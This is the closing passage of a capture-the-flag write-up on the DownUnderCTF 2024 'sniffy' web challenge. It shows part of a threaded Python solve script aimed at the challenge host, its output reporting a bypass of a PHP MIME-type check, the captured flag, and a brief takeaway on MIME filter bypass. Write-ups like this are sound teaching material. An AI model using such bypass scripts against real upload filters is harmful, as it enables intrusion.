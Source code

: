 ```python
    getFlag(baseUrl, sessionCookie, offset)

if __name__ == '__main__':
    # baseUrl = 'http://localhost'
    baseUrl = 'https://web-sniffy-d9920bbcf9df.2024.ductf.dev'

    for offset in range(-50, 50):
        thread = Thread(target=exploit, args=(baseUrl, offset))
        thread.start()
```

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/sniffy)-[2024.07.09|20:46:51(HKT)]
└> python3 solve.py
[*] Trying offset 404
[+] We successfully tricked the PHP function MIME type to start with "audio" at offset 44!
[+] Here's the flag: DUCTF{koo-koo-koo-koo-koo-ka-ka-ka-ka-kaw-kaw-kaw!!}
```

- **Flag: `DUCTF{koo-koo-koo-koo-koo-ka-ka-ka-ka-kaw-kaw-kaw!!}`**

## Conclusion

What we've learned:

1. File MIME type filter bypass